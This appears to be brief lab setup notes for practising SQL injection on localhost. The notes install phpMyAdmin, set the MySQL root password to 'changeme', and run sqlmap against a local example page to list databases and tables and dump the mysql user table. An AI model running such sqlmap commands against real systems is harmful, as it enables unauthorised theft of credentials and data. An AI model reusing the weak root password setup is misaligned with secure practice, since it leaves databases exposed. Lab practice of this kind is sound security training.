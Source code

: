 
apt-get install gedit phpmyadmin

mysql
use mysql 
update user set password=PASSWORD("changeme") where User='root';
flush privileges;

then http://localhost/phpmyadmin/


sqlmap -u http://localhost/sqlinjection_examples/example1.php?username= --dbs

sqlmap -u http://localhost/sqlinjection_examples/example1.php?username= -D mysql --tables

sqlmap -u http://localhost/sqlinjection_examples/example1.php?username= -D mysql -T user --dump


